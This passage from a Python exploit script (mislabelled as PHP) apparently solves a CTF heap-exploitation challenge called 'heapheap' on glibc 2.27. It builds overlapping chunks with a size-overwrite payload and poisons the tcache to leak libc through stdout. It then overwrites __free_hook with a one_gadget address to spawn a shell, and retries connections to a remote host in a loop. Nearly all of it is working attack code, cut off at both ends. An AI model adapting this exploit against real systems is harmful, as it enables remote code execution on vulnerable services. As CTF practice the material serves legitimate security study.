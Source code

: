 ```php
        sd(content)

def free(idx):
        menu(2)
        ru('Please input the index:')
        sl(str(idx))

#---------------------------------------------overlap
# attach(p)
def exp():
        add(0x4f8,'first') #0 
        add(0xf8,'b') #1
        add(0xf8,'c') #2
        add(0xf8,'d') #3

        free(2)
        payload = 'a'*0xf0 + p64(0x500+0x100+0x100)
        add(0xf8,payload)

        for i in range(4,10):
                add(0xf8,'a')

        for i in range(4,10):
                free(i)

        free(1)

        free(0)
        free(3)
        #---------------------------------------------fd-->stdout leak
        add(0x4f8,'Epiphany') #0
        add(0x20,p16(0xe760)) #1

        add(0xf8,'junk') #3
        payload = p64(0xfbad1800) + p64(0) * 3 + '\x00'
        add(0xf8, payload) #4
        libc_base = leak(0x3ed8b0) # _IO_stdfile_2_lock

        # lg("libc_base")

        free_hook = libc_base + libc.sym['__free_hook']
        malloc_hook = libc_base + libc.sym['__malloc_hook']
        system = libc_base + libc.sym['system']
        og = libc_base + 0x4f432
        #---------------------------------------------fd->hook->shell
        free(2)
        payload = 'a'*0xc8 + p64(0x101) + p64(free_hook)
        add(0x120,payload) #2

        add(0xf8,'junk') #5
        add(0xf8,p64(og)) #6

        free(0)

# exp()
# it()
libc = ELF('./libs/2.27-3ubuntu1.4_amd64/libc.so.6')
ids = 0
while(1):
        try:
                print "try %d times"%ids
                p = remote("123.57.69.203",5320)
                # p = process('./heapheap')
```